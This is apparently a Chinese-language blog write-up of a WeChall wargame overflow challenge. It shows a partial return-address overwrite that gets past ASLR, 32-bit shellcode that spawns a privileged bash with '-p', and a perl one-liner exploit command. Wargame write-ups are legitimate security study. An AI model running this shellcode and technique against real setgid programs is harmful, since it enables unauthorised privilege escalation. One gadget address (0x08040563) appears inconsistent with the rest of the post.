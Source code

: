 ```yaml
---
title: Tropical Fruits
author: rk700
layout: post
categories:
  - writeup
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tropical/7/index.php>  
这道题overflow很明显，关键是怎样绕过ASLR。

到现在做了这些题目，总结下来要找漏洞的话，最好是能找到不自然的地方。这道题的不自然之处在具体溢出那里，用的是`memcpy`加`strlen`，而一般来说复制字符串直接`strcpy`就够了。所以这里是关键，两种方法相比，`memcpy`不会在最后添null字符，这给了我们提示。另一方面，由于各个库的的地址都随机化了，所以我们用partial EIP overwrite，也就是只修改返回地址的低位。而正是由于`memcpy`我们才不用担心多余的null字符

具体的，随机化只是随机page, 在page内的offset还是不变的。page的大小是4k，也就是说地址的后三位不会被随机化。调用`vulnfunc`后的返回地址是`0x08048540`，我们修改最低位的那个byte，让返回到其他地方。这里我选择返回到`0x08040563`，其内容是`ret`

这样一来，从`vulnfunc`返回后，又调用一次`ret`，其效果是跳转到`vulnfunc`的`argv[1]`那里。幸运的是`argv[1]`的内容正是我们提供的，这样就实现了exploit

下面是shellcode的汇编代码，由于`/bin/sh`被链接到`/bin/bash`了，所以我们需要`-p`选项来保持setgid

{% highlight nasm %}
BITS 32
xor eax, eax

push eax
mov edx, esp ;env
push word 0x702d 
mov ecx, esp ;-p

push eax
push byte 0x68
push 0x7361622f
push 0x6e69622f
mov ebx, esp ;/bin/bash

push eax
push ecx
push ebx
mov ecx, esp ;argv
mov al, 11 ;execve("/bin/bash", ["/bin/bash", "-p", NULL], [NULL])
int 0x80
{% endhighlight %}

编译得到二进制文件，大小是35byte

buffer到返回地址的距离很容易得到，用a填充完后，最后一个byte是0x63，将返回地址的最低位改写：  
{% highlight bash %}
$ ./level7 `perl -e 'print "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" . "a"x277 . "\x63"'`
{% endhighlight %}